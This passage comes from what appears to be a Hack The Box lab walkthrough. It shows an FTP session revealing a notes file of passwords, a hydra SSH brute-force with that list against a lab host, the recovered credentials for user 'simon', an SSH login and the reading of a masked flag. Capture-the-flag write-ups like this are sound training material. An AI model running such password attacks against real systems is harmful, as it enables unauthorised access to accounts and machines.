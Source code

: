 ```
100% |**********************************************************************************************************|   153       76.19 KiB/s    00:00 ETA
226 Transfer complete

ftp> !cat mynotes.txt
234987123948729384293
+23358093845098
ThatsMyBigDog
Rock!ng#May
Puuuuuh7823328
8Ns8j1b!23hs4921smHzwn
237oHs71ohls18H127!!9skaP
238u1xjn1923nZGSb261Bs81
```

#### SSH Exploitation

```
┌──(nabla㉿kali)-[~]
└─$ hydra -l simon -P mynotes.txt ssh://10.129.201.127 -t 64

[SNIP]

[22][ssh] host: 10.129.201.127   login: simon   password: 8Ns8j1b!23hs4921smHzwn
```

```yaml
credentials:
    username: simon
    password: '8Ns8j1b!23hs4921smHzwn'
    host: inlanefreight.htb
    port: 22 (SSH)
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh simon@10.129.201.127

simon@10.129.201.127's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-107-generic x86_64)

[SNIP]

simon@lin-medium:~$ ls -l
total 8
-rw-r--r-- 1 root  root    29 Apr 20  2022 flag.txt
drwxrwxr-x 3 simon simon 4096 Apr 18  2022 Maildir

simon@lin-medium:~$ cat flag.txt
HTB{1*********************** 📌
```

---
---

